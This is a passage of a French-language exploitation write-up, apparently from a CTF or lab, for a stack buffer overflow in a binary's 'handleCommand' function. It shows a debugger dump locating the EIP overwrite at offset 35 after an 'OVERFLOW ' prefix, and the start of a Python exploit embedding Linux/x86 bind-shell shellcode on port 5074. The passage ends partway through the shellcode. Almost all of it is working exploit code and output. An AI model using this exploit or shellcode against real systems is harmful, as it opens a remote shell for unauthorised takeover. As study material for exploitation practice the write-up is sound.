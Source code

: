 J'envoie une chaine cyclique au binaire avec le préfixe attendu et je break sur l'instruction `ret` de la fonction :

```
[----------------------------------registers-----------------------------------]
EAX: 0xffffc760 ("OVERFLOW aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaa"...)
EBX: 0x61616861 ('ahaa')
ECX: 0xffffcba0 ("kbaakcaakdaa\020")
EDX: 0xffffcb54 ("kbaakcaakdaa\020")
ESI: 0xc75c 
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x61616961 ('aiaa')
ESP: 0xffffc78c ("ajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaa"...)
EIP: 0x804928c (<handleCommand+42>:     ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8049287 <handleCommand+37>:        nop
   0x8049288 <handleCommand+38>:        mov    ebx,DWORD PTR [ebp-0x4]
   0x804928b <handleCommand+41>:        leave  
=> 0x804928c <handleCommand+42>:        ret    
   0x804928d <jmpesp>:  push   ebp
   0x804928e <jmpesp+1>:        mov    ebp,esp
   0x8049290 <jmpesp+3>:        call   0x80494dc <__x86.get_pc_thunk.ax>
   0x8049295 <jmpesp+8>:        add    eax,0x2d6b
[------------------------------------stack-------------------------------------]
```

Je détermine que `eip` est pris à l'offset 35 de notre chaine (sans compter le préfixe `OVERFLOW `).

J'ai écrit l'exploit suivant :

```python
from struct import pack
from socket import socket

shellcode = (
    # Linux/x86 - Bind (5074/TCP) Shell Shellcode (92 bytes)
    # https://www.exploit-db.com/shellcodes/13448
    b"\x31\xc0"                 # xorl          %eax,%eax
    b"\x50"                             # pushl %eax
    b"\x40"                             # incl          %eax
    b"\x89\xc3"                 # movl          %eax,%ebx
    b"\x50"                             # pushl %eax
    b"\x40"                             # incl          %eax
    b"\x50"                             # pushl %eax
    b"\x89\xe1"                 # movl          %esp,%ecx
    b"\xb0\x66"                 # movb          $0x66,%al
    b"\xcd\x80"                 # int           $0x80
    b"\x31\xd2"                 # xorl          %edx,%edx
    b"\x52"                             # pushl %edx
    b"\x66\x68\x13\xd2"         # pushw $0xd213
    b"\x43"                             # incl          %ebx
    b"\x66\x53"                 # pushw %bx
    b"\x89\xe1"                 # movl          %esp,%ecx
    b"\x6a\x10"                 # pushl $0x10
    b"\x51"                             # pushl %ecx
    b"\x50"                             # pushl %eax
    b"\x89\xe1"                 # movl          %esp,%ecx
    b"\xb0\x66"                 # movb          $0x66,%al
    b"\xcd\x80"                 # int           $0x80
    b"\x40"                             # incl          %eax
```